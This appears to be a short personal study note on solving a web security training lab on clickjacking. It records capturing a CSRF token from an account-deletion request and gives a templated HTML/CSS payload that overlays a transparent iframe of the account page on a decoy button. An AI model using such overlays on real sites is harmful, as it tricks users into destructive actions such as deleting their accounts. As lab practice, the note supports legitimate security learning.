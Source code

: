 ```yaml
---
sticker: emoji//1f97c
---
```

Based on the previous note: [[HOW TO CONSTRUCT A BASIC CLICKJACKING ATTACK|NOTE]]

![](Pasted%20image%2020241021153605.png)


If we use the delete function from the account and send the request to the repeater, we get the following CRSR token:

![](Pasted%20image%2020241021155644.png)

```ad-info
token:0XvopQRGgqPlwC8auzHR7owrONVjuWJf
```
Next, what we need to do is craft our Clickjacking malicious code, I used the following code for this:

```html
<style>
    iframe {
        position:relative;
        width:$width_value;
        height: $height_value;
        opacity: $opacity;
        z-index: 2;
    }
    div {
        position:absolute;
        top:$top_value;
        left:$side_value;
        z-index: 1;
    }
</style>
<div>Test me</div>
<iframe src="YOUR-LAB-ID.web-security-academy.net/my-account"></iframe>
```

![](Pasted%20image%2020241021162011.png)
Once we send the exploit to the victim, lab's solved